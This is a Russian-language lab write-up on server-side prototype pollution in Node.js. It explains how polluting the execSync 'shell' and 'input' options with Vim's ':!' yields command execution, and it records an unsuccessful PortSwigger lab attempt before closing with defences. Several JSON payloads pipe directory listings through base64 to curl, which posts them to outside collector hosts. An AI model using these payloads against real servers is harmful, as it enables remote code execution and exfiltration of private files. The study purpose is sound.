


доп теория

### execSync и атака через shell + input

#### суть
функция `child_process.execSync()` выполняет системные команды. Она принимает объект опций, где можно указать:

- **`shell`** — какую оболочку использовать (bash, sh и т.д.)
   
- **`input`** — что передать этой оболочке через стандартный ввод (stdin)
   

если разработчик не задал эти опции явно, их можно подменить через загрязнение прототипа

#### проблема с обычным shell

нельзя просто подменить `shell` на `/bin/sh` и передать команду через `input`, потому что Node.js сам добавляет флаг `-c`. Получается примерно так:

`/bin/sh -c "команда_из_аргументов"`

но команда уходит в stdin, а не в аргументы - и в итгге нихрена не работает

#### решение через Vim

Vim и ex — текстовые редакторы, которые:

- Принимают команды из stdin 
- Умеют выполнять внешние команды через `:!`

```json
"__proto__": {
    "shell":"vim", "input":":! <command>\n"
}
```

cимвол `\n` в конце имитирует нажатие Enter, иначе Vim будет ждать

> Vim имеет интерактивную подсказку и ожидает, что пользователь нажмет `Enter`, чтобы запустить предоставленную команду. В результате вам нужно смоделировать это, включив символ новой строки (`\n`) в конце полезной нагрузки, как показано в примере выше

#### как это работает & допустим

1. Приложение где-то вызывает `execSync('что-то', options)`
2. Опции `shell` и `input` не заданы, поэтому берутся из прототипа
3. Запускается Vim, который читает stdin и выполняет `:! curl ...`
4. Команда выполняется в настоящей оболочке

#### для эксфильтрации данных

можно переправлять данные на свой сервер:

```json
"__proto__": {
    "shell": "vim",
    "input": ":! ls /home | base64 | curl -d @- https://YOUR-ID.oastify.com\n"
}
```

`-d @-` заставляет curl читать данные из stdin

------

##### ⭐️ лаба https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution
лаба на Node.js и Express Framework

есть уязвимость для загрязнения серверного прототипа, поскольку небезопасно объединяет контролируемый пользователем ввод в серверный объект JavaScript

возможно загрязнение `Object.prototype` таким образом, вы можете вводить произвольные системные команды, которые впоследствии выполняются на сервере

задание:

1. Найдите прототип источника загрязнения, который вы можете использовать для добавления произвольных свойств в глобальную `Object.prototype`.
2. Определите устройство, которое вы можете использовать для ввода и выполнения произвольных системных команд.
3. Запускает удаленное выполнение команды, которая приводит к утечке содержимого домашнего каталога Карлоса (`/home/carlos`) на общедоступный сервер Burp Collaborator.
4. Отфильтруйте содержимое секретного файла из этого каталога на общедоступный сервер Burp Collaborator.
5. Отправьте секрет, который вы получили из файла, используя кнопку, указанную на баннере лаборатории.

------

приступаю к решению!
есть такая форма в личном аккаунте , это прост ообновление данных профиля!




попробую загрязнить!

пейлоад
```json
"__proto__" :{"foo":"qwerty1417"}
```




сразу попадание с первого раза! сразу загрязнение есть!

-------

вот тут беру пейлоады базовые [[08_PrototypePollution_Server-side_RCE_NODEjs]]

перебираю пейлоады для выводы данных на свой сервер!

так как у меня бемплатная версия бурпа, то я буду пробовать два варианта своих серверов-приемников, аналогов колоборатора от бурп

первый вариант это https://app.interactsh.com
второй вариант - я создал облачную функцию через яндекс облако, она успешно также может ловить все что нужно!

символ `\n` в конце обязателен — он имитирует нажатие Enter

пейлоад
```json
"__proto__": {
    "shell": "vim",
    "input": ":! curl https://iopdzorcjlmwuapoyjqbc07ve3o3glyd3.oast.fun\n"
}
```
Пэйлоад (для вывода данных через curl):

```json
"__proto__": {
    "shell": "vim",
    "input": ":! curl -d @- https://iopdzorcjlmwuapoyjqbc07ve3o3glyd3.oast.fun\n"
}
```

пробую оба варианта и для обоих моих личных колобораторов , но запроса к ним нет, так как портсвиггер всегда блокирует все исходящие запросы в непонятные места...
а колоборатор от бурп - у меня не работает

в ответе все отражается
отражает свойства `shell` и `input` обратно в JSON-ответе
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","isAdmin":true,"foo":"qwerty1417",

"shell":"vim",

"input":":! curl https://functions.yandexcloud.net/cjhr8v3tr8vrv739v37c3e27ed"}
```

------

еще попытка  через https://app.interactsh.com
запрос
```json
{
"__proto__": {
    "shell": "vim",
    "input": ":! ls /home/carlos | base64 | curl -d @- https://iopdzorcjlmwuapoyjqbc07ve3o3glyd3.oast.fun\n"
},
"address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","sessionId":"Y4d3Mu9fRVEeWjZUuKx4ZGWujCsSZXxp"}
```

ответ
```json
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ2","address_line_2":"One Wiener Way2","city":"Wienerville2","postcode":"BU1 1RP2","country":"UK2","isAdmin":true,"foo":"qwerty1417",

"shell":"vim",

"input":":! ls /home/carlos | base64 | curl -d @- https://iopdzorcjlmwuapoyjqbc07ve3o3glyd3.oast.fun\n"}
```

но портвиггер не постучался на мой app.interactsh.com

----

пробую через
https://webhook.site/#!/view/e36

и ничего...

-----
КОРОЧЕ _ Я РЕШИТЬ НЕ МОГУ ПО ТЕХ ПРИЧИНАМ: ТАК КАК У МЕНЯ НЕ БУРП-ПРО, А ДРУГИЕ ВНЕШНИЕ СЕРВЕРА - НЕ ПЕРЕХОДИТ НА СТОРОННИЕ СЕРВЕРА _


#### НО ИТОГИ ЕСТЬ...


В этой лабе я использовал server-side prototype pollution для эксфильтрации данных с сервера через уязвимость в `child_process.execSync()`. Источником загрязнения стал запрос на изменение адреса, через который я добавил в `Object.prototype` свойства `shell` и `input`. Прямое добавление `__proto__` сработало с первого раза, что подтвердилось отражением свойства `foo` в ответе

Согласно теории, для выполнения команд через `execSync()` нужно подменить оболочку на Vim, так как он принимает команды из stdin и умеет выполнять внешние команды через `:!`. Я подготовил пэйлоады для отправки данных на внешние серверы: Interactsh, Яндекс-функцию и

Во всех случаях свойства `shell` и `input` успешно отражались в ответе, что подтверждало загрязнение прототипа

Однако лаборатория не отправляла запросы на мои внешние серверы: так как - PortSwigger - как всегда - блокирует исходящие соединения на любые сторонние ресурсы, кроме встроенного Burp Collaborator, который доступен только в платной версии. ПОЭТОМУ НИХРЕНА САМУ ЛАБУ НЕ РЕШИЛ - НО СМЫСЛ ПОНЯЛ

#### защита от RCE с execSync

нужно замораживать прототипы через `Object.freeze(Object.prototype)`, чтобы свойства `shell` и `input` нельзя было подменить

еще, при вызове `execSync` всегда явно задавать все параметры, не полагаясь на значения из прототипа

ограничивать возможность сервера инициировать исходящие соединения на сетевом уровне

использовать более безопасные альтернативы для выполнения системных команд, избегая прямых вызовов там, где это возможно

валидировать входящие JSON-данные и удалять ключи `__proto__`, `constructor` и `prototype`